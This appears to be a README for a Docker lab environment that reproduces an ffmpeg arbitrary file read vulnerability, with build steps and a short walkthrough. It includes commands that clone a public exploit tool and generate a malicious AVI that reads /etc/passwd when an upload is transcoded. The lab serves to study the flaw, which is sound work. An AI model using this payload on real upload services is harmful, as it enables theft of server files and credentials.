

# ffmpeg arbitrary file read vulnerability environment

Reference materials:

  - http://bobao.360.cn/learning/detail/4032.html
  - https://hackerone.com/reports/242831
  - https://github.com/neex/ffmpeg-avi-m3u-xbin

## Environment Building

Compile and start the environment

```
Docker-compose build
Docker-compose up -d
```

After the environment starts, listen to port 8080 and visit `http://your-ip:8080/` to view it.

## Vulnerability

The vulnerability principle is no longer described, download exp directly, and generate payload:

```
# download exp
Git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
Cd ffmpeg-avi-m3u-xbin

#产生payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

Generate exp.avi and upload it at `http://your-ip:8080/`. The backend will display the video you uploaded with ffmpeg and transcode it. When transcoding, any file read vulnerability in ffmpeg can be read into the video:



You can also execute `docker-compose exec web bash` to enter the environment and test ffmpeg.